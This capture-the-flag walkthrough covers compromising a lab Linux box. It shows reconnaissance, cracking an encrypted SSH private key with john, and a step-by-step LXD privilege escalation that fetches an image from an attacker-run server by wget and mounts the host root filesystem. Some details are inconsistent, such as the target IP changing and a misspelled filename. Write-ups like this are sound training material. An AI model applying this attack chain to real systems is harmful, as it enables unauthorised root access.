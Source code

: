 First started with a initnmap scan found ssh and a websever

                nmap -sC -sV 10.10.20.34                    
                Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 00:37 EST
                Nmap scan report for 10.10.20.34
                Host is up (0.20s latency).
                Not shown: 998 closed tcp ports (conn-refused)
                PORT   STATE SERVICE VERSION
                22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
                | ssh-hostkey: 
                |   2048 340efe0612673ea4ebab7ac4816dfea9 (RSA)
                |   256 49611ef4526e7b2998db302d16edf48b (ECDSA)
                |_  256 b860c45bb7b2d023a0c756595c631ec4 (ED25519)
                80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
                |_http-server-header: Apache/2.4.29 (Ubuntu)
                |_http-title: House of danak
                Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

                Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
                Nmap done: 1 IP address (1 host up) scanned in 29.47 seconds

Started clicking on links on the website and found a upload section and takes me to a non upload page but a place were uploaded files go
                http://10.10.188.182/uploads/

Found a password list
                http://10.10.188.182/uploads/dict.lst

Found a note in the index.html file possibale username
                <!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->

Found a directory /secret/ and found a rsa key
                http://10.10.188.182/secret/secretKey

                                -----BEGIN RSA PRIVATE KEY-----
                Proc-Type: 4,ENCRYPTED
                DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

                T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
                H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
                FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
                Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
                9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO
                IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN
                SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g
                /5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt
                w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB
                6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u
                Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl
                xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6
                8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii
                b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn
                vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL
                wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG
                rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW
                RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6
                oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
                cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
				<Redacted>
                -----END RSA PRIVATE KEY-----


I tried to crack ssh with username john and the password list i found did not find anything

I did ssh2john and made a hash file and then used john to crack it
                ssh2john secretKey > id_rsa.hash
                john --wordlist=dict.lst id_rsa.hash

Then found a password for the rsa key
l.....          (secretKey)

Then i was able to ssh in
ssh john@10.10.188.182 -i secretKey

Then i looked around a bit did not find anything so I went and downloaded linpeas onto the box

To get root we have to exploit the lxd 

Clone the repo here is the commands to do so
                git clone  https://github.com/saghul/lxd-alpine-builder.git
                cd lxd-alpine-builder
                ./build-alpine

Then start a http server on your host machine 
                python -m SimpleHTTPServer

Go to the /tmp directory and download the file
                cd /tmp
    wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz

After we build the image we will add it
                lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage

Then we are going to list the image and make sure its there
                lxc image list

Then to start the exploit now we will run these commands to get root
                lxc init myimage ignite -c security.privileged=true
                lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
                lxc start ignite
                lxc exec ignite /bin/sh
                id

And now we have root and to view contents in the root folder we run this command
                mnt/root/root
                ls
                root.txt
                cat root.txt
